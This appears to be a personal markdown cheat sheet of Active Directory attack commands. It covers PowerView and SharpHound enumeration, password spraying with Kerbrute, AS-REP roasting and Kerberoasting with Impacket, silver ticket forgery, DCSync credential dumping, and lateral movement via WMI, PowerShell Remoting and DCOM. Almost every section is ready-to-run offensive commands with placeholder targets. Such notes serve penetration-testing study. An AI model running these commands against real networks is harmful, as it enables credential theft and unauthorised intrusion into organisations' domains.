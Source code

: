 # Reconnaissance
### PowerView
#windows 
-  https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
- <mark>Basic Information</mark>
```shell
# Basic information about the domain
Get-NetDomain
# Domain Policies
Get-DomainPolicy
# Enumerate user objects
Get-NetUser
Get-NetUser [User_Name]
Get-NetUser | select cn,pwdlastset,lastlogon
# Enumerate group objects
Get-NetGroup
Get-NetGroup [Group_Name]
Get-NetGroup | select cn
# Enumerate computer objects
Get-NetComputer
Get-NetComputer | select operatingsystem,dnshostname
#  Enumerate Locally
Get-NetLocalGroup
Get-NetLocalGroupMember
```
- <mark>Permissions & Logged on Users</mark>
	-  The command relies on the `OpenServiceW` function, which will connect to the _Service Control Manager_ (SCM) on the target machines. PowerView will attempt to open this database with the _SC_MANAGER_ALL_ACCESS_ access right, which require administrative privileges, and if the connection is successful, PowerView will deem that our current user has administrative privileges on the target machine.
	```shell
	# Find local administrative access on computers under the current user context or specified otherwise.
	Find-LocalAdminAccess
	```
	- Uses the _NetWkstaUserEnum_ and _NetSessionEnum_  Windows APIs under the hood.
	- The permissions required to enumerate sessions with _NetSessionEnum_ are defined in the **SrvsvcSessionInfo** registry key at `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity`.
	```shell
	Get-NetSession -Verbose -ComputerName [Computer_Name] 
	```
- <mark>Service Principal Name</mark>
	```shell
	Get-NetUser -SPN | select samaccountname,serviceprincipalname
	```
- <mark>Object Permissions</mark>
	-  An object in AD may have a set of permissions applied to it with multiple Access Control Entries (ACE).These ACEs make up the Access Control List (ACL).
	1. GenericAll: Full permissions on object
	2. GenericWrite: Edit certain attributes on the object
	3. WriteOwner: Change ownership of the object
	4. WriteDACL: Edit ACE's applied to object
	5. AllExtendedRights: Change password, reset password, etc.
	6. ForceChangePassword: Password change for object
	7. Self (Self-Membership): Add ourselves to for example a group
	```shell
	Get-ObjectAcl -Identity stephanie
	Convert-SidToName [SID]
	Get-ObjectAcl -Identity "stephanie" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
	```
- <mark>Domain Shares</mark>
	- `SYSVOL` which resides on the domain controller itself. This particular share is typically used for various domain policies and scripts. 
	- By default, the `SYSVOL` share is mapped to `%SystemRoot%\SYSVOL\Sysvol\domain-name` on the domain controller and every domain user has access to it.
	```shell
	Find-DomainShare
	# Display shares only available to user's querying
	Find-DomainShare -CheckShareAccess
	```
	- <mark>Kerberos-Related</mark>
	```shell
	Get-DomainUser -PreauthNotRequired
	```
### SharpHound
#windows 
- SharpHound.ps1
	- For enumeration with new user, it is important that, not only LDAP queries, but also `bloodhound` is ran under the new user's security context.
	- To obtain a new session, use
```shell
# General but complex
`New Process:` Start-Process -FilePath "powershell.exe" -ArgumentList "[Arguments]" -Credential (New-Object System.Management.Automation.PSCredential ('[Domain]\[Username]', (ConvertTo-SecureString '[Password]' -AsPlainText -Force))) -NoNewWindow
# Requires special conditions but easy
1. `mimikatz` if Administrative rights available
2. `runas` if GUI access is allowed 
```

```shell
# Loac SharpHound.ps1
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope CurrentUser -Force
. .\SharpHound.ps1
# Query using current session user context
Invoke-BloodHound -CollectionMethod All -OutputDirectory [Output_Path] 
# Run LDAP Query using specified user context
# Be careful, this is LDAP query only, bloodhound still runs within the session user's context
Invoke-BloodHound -CollectionMethod All -OutputDirectory [Output_Path] -ldapusername [Username] -ldappassword [Password]
```
### ldapdomaindump
#linux 
```shell
ldapdomaindump --no-json --no-grep ldap://[DC_IP] -u "[Domain]\[Username]" -p [Password] 
```
### Responder
#linux 
```shell
# Starts responder in analysis mode without poisoning.
responder -I [NIC_Name] -A
```

# Authentication Attacks
### Kerbrute
```shell
# Password Spray
kerbrute passwordspray -d [Domain] [Username or File] "[Password]"
```
### impacket-suite
#linux 
#### GetNPUsers
- `Pth`: ``
```shell
# To identify users with the `Do not require Kerberos preauthentication` option enable
impacket-GetNPUsers -dc-ip [IP] [FQDN]/[Username]:[Password]
# Retrieve Corresponding AS-REP hash
# Hashcat -m 18200
impacket-GetNPUsers -dc-ip [IP] [FQDN]/[Username]:[Password] -request -outputfile [Output_Path] 
```
#### GetUserSPNs
```shell
# To identify Kerberoastable SPNs
impacket-GetUserSPNs -dc-ip [IP] [FQDN]/[Username]:[Password]
# Retrieve Corresponding TGS-REP hash
# Hashcat -m 13100
impacket-GetUserSPNs -dc-ip [IP] [FQDN]/[Username]:[Password] -request -outputfile [Output_Path] 
```
#### ticketer
```shell
# Forging Silver Tickets
impacket-ticketer -nthash [Hash] -domain-sid [Domain_SID] -spn [SPN] -domain [FQDN] [Username]
export KRB5CCNAME=/root/impacket-examples/<TICKET_NAME>.ccache 
```
#### secretsdump
```shell
# DC-Sync Attack
impacket-secretsdump [Domain]/[Username]:"[Password]"@[DC_IP]
# Against specific user
impacket-secretsdump -just-dc-user [Username] [Domain]/[Username]:"[Password]"@[DC_IP]
```
# Lateral Movement
### WMI and WinRM
- To create a process on the remote target via WMI, we need the credentials of a member of the _Administrators_ local group.
- WMI communicates through `Remote Procedure Calls(RPC)` over port 135 for remote access and uses a higher-range port (19152-65535) for session data.
```shell
# CMD
wmic /node:"[IP]" /user:"[Username]" /password:"[Password]" process call create "powershell.exe -nop -w hidden -c ...."
# Powershell Common Interface Model(CIM)
Invoke-CimMethod -CimSession (New-CimSession -ComputerName [IP] -Credential (New-Object System.Management.Automation.PSCredential ('[Username]', (ConvertTo-SecureString '[Password]' -AsPlainText -Force))) -SessionOption (New-CimSessionOption -Protocol DCOM)) -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine='[Command]'};
```
- `PowerShell Remoting`
```shell
New-PSSession -ComputerName [IP] -Credential (New-Object System.Management.Automation.PSCredential ('[Username]', (ConvertTo-SecureString '[Password]' -AsPlainText -Force)))\
# List active session
Get-PSSession
# Interact with chosen session
Enter-PSSession [Session_ID]
```
### DCOM
```shell
[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","[IP]")).Document.ActiveView.ExecuteShellCommand("powershell.exe",$null,"-nop -w hidden -c ...","7")
```